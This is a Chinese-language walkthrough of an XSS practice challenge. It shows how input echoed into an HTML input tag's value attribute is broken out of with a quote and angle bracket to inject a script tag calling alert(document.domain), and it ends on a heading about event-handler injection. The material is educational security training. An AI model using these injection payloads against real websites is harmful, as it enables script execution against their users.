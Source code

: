 提交 hello

![提交 hello](./../../../../images/XSS%20Challenges/%E6%8F%90%E4%BA%A4%20hello.png)

> 发现回显处发生了改变

**判断能否执行 javascript 代码**

查看源码

```
<input type="text" name="p1" size="50" value="hello">
```

> 发现回显位置已经改变，此时注入 javascript 并不会执行代码

**设法执行 javascript**

闭合 **input 标签**（ 利用 "> ）

执行 javascript

```
hello"><script>alert(document.domain);</script>
```

```
<input type="text" name="p1" size="50" value="hello"><script>alert(document.domain);</script>">
```

> 成功执行 javascript

查看源码

```
<input type="text" name="p1" size="50" value="hello">
<script>alert(document.domain);</script>
">
```

插入**事件** 触发执行 js（利用 " ）
